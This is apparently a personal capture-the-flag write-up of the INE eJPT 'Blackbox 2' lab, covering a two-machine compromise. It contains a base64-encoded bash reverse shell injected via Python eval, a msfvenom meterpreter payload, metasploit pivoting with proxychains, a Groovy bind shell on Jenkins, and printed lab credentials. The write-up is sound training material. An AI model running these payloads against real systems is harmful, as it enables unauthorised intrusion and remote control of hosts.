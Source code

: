 ```yaml
---
title: "[eJPT] INE Blackbox 2"
author: Tri Nguyen
date: 2022-01-11 18:30:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, ine, ejpt]
---
```


# INE Blackbox 2

## Enumeration 1:

- Target: online-calc.com

- Running `nmap -sS -Pn -v online-calc.com`:

```
80/tcp   open  http
5000/tcp open  upnp
8000/tcp open  http-alt
```

- If you go to online-calc.com, online-calc.com:5000 and online-calc.com:8000 you will know that all of these are http web servers.

- We use dirb scan on all of these host, the only one that return a suspicious answer is: `dirb online-calc.com:8000` which return:

```
---- Scanning URL: http://online-calc.com:8000/ ----
+ http://online-calc.com:8000/.git/HEAD (CODE:200|SIZE:23)                     
+ http://online-calc.com:8000/console (CODE:200|SIZE:1985)
```

- The console page is locked by a PIN which shows on the shell run by the server.

- Run dirb on http://online-calc.com:8000/.git => We know that HEAD and config file are exposed

- Download `/.git/config` file we sees something interesting:

```
[remote "origin"]
	url = http://online-calc.com/projects/online-calc
	fetch = +refs/heads/*:refs/remotes/origin/*
```

- Clone the following URL to our machine.

- If we read the API.py file, make sure the isValid function always return True.

- Then commit the new file by doing:

```
git add .
git commit -m "Exploit" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
git push 
username: jeremy
password: diamonds
```

- We know the password in the config file.

- Now we need to craft a payload for reverse shell https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval

```
root@INE:~/online-calc# echo 'bash -c "bash -i >& /dev/tcp/192.168.231.2/4444 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMS4yLzQ0NDQgMD4mMSIK
```

- Then use the following payload in the calculator at port 5000

```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMS4yLzQ0NDQgMD4mMSIK | base64 -d | bash")

```

- No flag in /root lol

- We need to find the flag using: `find / -iname *flag* 2>/dev/null`

```
cat /tmp/flag
3b2b474c06380f696b38c1498f795e054374
```

# Enumeration 2

- We still need a reverse meterpreter shell. Using msfvenom on our machine

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.231.2 LPORT=5555 -f elf > shell.elf`

- Start a simple python http server on our machine, then using the online-calc machine, we retrieve that file using wget

- On our machine, in metasploit, we start a `use exploit/multi/handler` on port 5555, IP 192.168.231.2 . We set our payload being `linux/x86/meterpreter/reverse_tcp`

- Once we received a Meterpreter shell, run `ipconfig`.

```
Name         : eth1
Hardware MAC : 02:42:c0:bf:5c:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.191.92.2
IPv4 Netmask : 255.255.255.0
```

- So our second target is within 192.191.92.0/24 range. But first we need to autoroute it to our metasploit session. `meterpreter > run autoroute -s 192.191.92.0`

- Now we need proxy chain to further scan our second target: https://www.offensive-security.com/metasploit-unleashed/proxytunnels/

![Alt text](https://miro.medium.com/max/700/1*exRPwGYJpGv6eESldShwzQ.png)

- We use the module `auxiliary/server/socks_proxy` set the version to 4a, port to 9050 (because proxychains default port is 9050) --> Run the module

- In another terminal, run `proxychains nmap -P0 -sT 192.191.92.3` ---> Port 8080 is open

- Now we need to access the second machine's 8080 webpage on our machine. In firefox, go to preference then search for proxy, select manual proxy configuration. SOCKS host is 127.0.0.1, port is 9050 and uses socks v4.

- Tada you can now reach 192.192.92.3:8080 ---> A Jenkins webserver.

- When you go to the Groovy script, we will now create a BIND NETCAT SHELL (not Reverse) and use our machine proxychains to connect to it. The payload is:

- Source: https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell

```
int port=5555;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- On our attacking machine run: `proxychains nc -v 192.191.92.3 5555` 

- We now gain shell access on the target second machine!








